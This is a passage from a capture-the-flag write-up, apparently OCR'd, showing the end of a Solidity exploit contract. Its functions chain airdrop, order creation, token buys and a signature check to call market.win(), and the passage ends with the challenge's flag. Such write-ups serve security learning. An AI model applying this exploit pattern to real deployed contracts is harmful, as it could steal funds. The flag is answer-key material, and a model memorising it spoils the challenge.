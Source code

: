         function check(uint8 v, bytes32[2] calldata rs) public returns (bool) {
            return ecrecover(getSerialized(), v, rs[0], rs[1]) == issuer;
        }

        function exp1() public returns (bool) {
            airdrop();
            createNewOrder();
            getTokenFromMarket();
            if (!buyToken1()) return false;
            if (!buyToken2()) return false;
            return true;
        }

        function exp2(uint8 v, bytes32[2] calldata rs) public returns (bool) {
            if (!buyToken3(v, rs)) return false;
            market.win();
            return true;
        }
        
        function onERC721Received(address, address, uint256, bytes memory) public pure returns (bytes4) {
            return this.onERC721Received.selector;
        }
    }
    ```
    再配合 web3.py 进行交互即可（签署也在这里完成）

flag: **flag{off_by_null_in_the_market_d711fbd6a7c0c015b42d}**